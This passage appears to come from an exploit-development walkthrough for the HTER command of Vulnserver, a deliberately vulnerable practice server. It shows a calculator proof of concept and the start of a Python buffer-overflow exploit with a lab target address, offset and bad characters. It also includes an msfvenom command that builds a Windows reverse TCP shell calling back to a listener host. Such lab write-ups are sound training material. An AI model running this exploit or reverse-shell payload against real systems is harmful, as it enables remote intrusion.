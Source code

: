 Calculator pops:

![Pop calc](/assets/img/vulnserver_hter_60_calc.png)


## Exploit

Now that we know we can run shellcode, we can actually send ourselves a reverse shell:

```python
#!/usr/bin/env python3
# HTER
# Step 7 - final exploit
import socket

def bytes_to_hexbytestring(b):
    hexstring = b.hex()
    bytestring = hexstring.encode("utf-8")
    return bytestring

offset = 1020
size = 2048
target_ip = "10.0.2.74"
target_port = 9999
line_ending = b"\n" # new line 0x0a
badchars = [ 0x00, 0x0a ] # found badchars to exclude. We can assume 0x00 and 0x0a (new line) are bad chars without trying
NOP = b"\x90"

# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.79 LPORT=53 -f py -v payload -e x86/shikata_ga_nai -b '\x00\x0A' EXITFUNC=thread
payload =  b""
```